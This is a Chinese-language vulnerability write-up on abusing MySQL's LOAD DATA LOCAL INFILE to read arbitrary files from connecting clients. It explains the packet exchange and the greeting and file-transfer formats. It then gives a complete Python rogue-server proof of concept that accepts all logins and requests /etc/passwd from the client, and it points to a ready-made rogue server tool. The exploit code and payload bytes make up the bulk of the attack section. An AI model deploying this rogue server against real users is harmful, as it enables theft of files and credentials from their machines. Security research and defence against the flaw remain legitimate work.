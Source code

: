 ```yaml
---
title: MySQL LOAD DATA 读取客户端任意文
id: zhfly3036
---
```


# MySQL LOAD DATA 读取客户端任意文

## 一、漏洞简介

### LOAD DATA INFILE

mysql的LOAD DATA INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

```
load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符'; 
```

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD DATA LOCAL INFILE。
官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![image](../img/5bdfa0c773b171f6844667799fc97f70.png)

## 二、漏洞影响

## 三、复现过程

### 分析数据包

测试环境：
MacOS 10.14
Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![image](../img/0a6f9dd8b1cf14711649c5b5c0aeab92.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![image](../img/3a57ee6de6e1d96d256ec4904bbf0b1c.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![image](../img/8a7a74b45472dd30b8e7e4fdc24fc8b8.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @@version_comment;

![image](../img/b072cf8d88eb833705a0bc68d65b8f7a.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![image](../img/b072cf8d88eb833705a0bc68d65b8f7a.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![image](../img/5e2ba220df1ff2c54f7f5827e992b51b.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![image](../img/3d8a2bc13f85bf9b19c0f43a0c505f19.png)

如果我们在客户端发送查询之后，返回一个Response TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的 In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the [LOAD DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html "13.2.7 LOAD DATA Syntax") statement.
也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer 请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。
不过如果想要利用此特性，客户端必须具有CLIENT_LOCAL_FILES即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接mysql的时候加上--enable-local-infile。

### 搭建MySQL服务端

主要分为

*   向 MySQL Client 发送Server Greeting
*   等待 Client 端发送一个Query Package
*   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL_INFILE_Request

并且我们需要等待一个来自 Client 的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![image](../img/8c4b7d42e26d890890a2ff513b114522.png)

官方也给了exmaple

```
0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd 
```

数据包的内容其实是从\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从 \xfb 开始计算），长度后面的三个字节\x00\x00\x01是数据包的序号。

![image](../img/fe7561deac6e8fd75546403ddbae3100.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

```
'\x0a',  # Protocol
'6.6.6-lightless_Mysql_Server' + '\0',  # Version
'\x36\x00\x00\x00',  # Thread ID
'ABCDABCD' + '\0',  # Salt
'\xff\xf7',  # Capabilities, CLOSE SSL HERE!
'\x08',  # Collation
'\x02\x00',  # Server Status
"\x0f\x80\x15", 
'\0' * 10,  # Unknown
'ABCDABCD' + '\0',
"mysql_native_password" + "\0" 
```

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面 #3payload写错了，我给改了下。

```
#!/usr/bin/python
#coding: utf8
import socket

# linux :

#filestring = “/etc/passwd”

# windows:

#filestring = “C:\Windows\system32\drivers\etc\hosts”

HOST = “0.0.0.0” # open for eeeeveryone! ![:slight_smile:](../img/7d4cf85dfa4bece316c062f606cf7aa5.png ":slight_smile:")

PORT = 3306

BUFFER_SIZE = 1024

#1 Greeting

greeting = “\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00”

#2 Accept all authentications

authok = “\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00”

#3 Payload

#数据包长度

payloadlen = “\x0c”

padding = “\x00\x00”

payload = payloadlen + padding +  “\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64”

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((HOST, PORT))

s.listen(1)

while True:

conn, addr = s.accept()

```
print 'Connection from:', addr
conn.send(greeting)
while True:
    data = conn.recv(BUFFER_SIZE)
    print " ".join("%02x" % ord(i) for i in data)
    conn.send(authok)
    data = conn.recv(BUFFER_SIZE)
    conn.send(payload)
    print "[*] Payload send!"
    data = conn.recv(BUFFER_SIZE)
    if not data: break
    print "Data received:", data
    break
# Don't leave the connection open.
conn.close() 
``` 
```

![image](../img/5ae1e445fc021272a5fb91c2234ab18b.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值
Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。